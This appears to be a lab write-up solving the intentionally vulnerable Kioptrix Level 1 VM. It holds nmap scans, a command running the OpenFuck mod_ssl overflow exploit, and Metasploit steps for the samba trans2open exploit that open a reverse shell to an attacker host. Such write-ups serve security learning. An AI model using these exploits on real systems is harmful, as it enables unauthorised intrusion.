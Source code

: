 # writeup kioptrix level 1
  This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
  
# Download vm-machine from vulnhub website:
link: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ .

# Solution:
  [+] At the beginning, we need to perform ping sweep to discover network devices that alive. <br>
    command: 
    <code>sudo nmap -sn 192.168.1.0/24 </code> <br><br>
   <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/ping_sweep.png"/>
   <br><br>
   
  [+] After finding target IP, we need to perform port scan and banner grabbing over TCP through nmap. <br>
    command: <code>sudo nmap -sS -sV -O 192.168.1.104 -p-</code> <br><br>
    <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/nmap_portscan_banner_grabbing.png"/>
    <br><br>
    
  [+] Now, we can performing vulnerability assessment through doing search about vulnerabilities that can be found according to protocols versions.  <br>
    that depend on your search skill :D. <br>
    i found some vulneravilities:- <br>
    -- [1] buffer-over Apache mod_ssl < 2.8.7 OpenSSL <br>
    -- [1] download openfuck script from: 
     <a href="https://www.exploit-db.com/exploits/764/">exploit</a> <br>
     -- [1] or here: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck.c"> Github </a> <br>
     -- [1] or modified script: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck_modified.c ">Modifeid script:Github</a><br>
     -- [1] you can download the exploit script to using it.<br>
     -- [1] command: <code>./OpenFuck 0x6b 192.168.1.106</code> <br>
     <pre>
     -- [1] note: if any problem occur during running of the script, you will find some solution here. <br>
     -- [1] link: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/install_openfuck.md "> follow this instructions</a> <br>
     </pre>
      -- [1] POC: <br>
     <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/overflow.png"/>
    <br><br>
      -- [2] samba: <br>
      -- [2] enumeration commands: <br>
          <code> enum4linux 192.168.1.104 </code> <br>
      -- [2] detected samba version: <br>
          <code> msfconsole </code> <br>
          <code> msf > search smb_version </code> <br>
          <code> msf > use auxiliary/scanner/smb/smb_version </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.104 </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > exploit  </code> <br>
          <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_version.png"/>
      -- [2] samba 2.2.1a is vulnerable <br>
          command:
            <code> msf > search samba  </code> <br>
            <code> msf > use exploit/linux/samba/trans2open  </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RHOST 192.168.1.104 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RPORT 139 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LHOST 192.168.1.105 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LPORT 4444 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > exploit </code> <br>
      -- [2] POC:
            <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_overflow.png"/>
      <pre>we are do the best to keep it up-to-date and adding more vulnerabilities if we found it at this machine.
      Best wishes,,</pre>
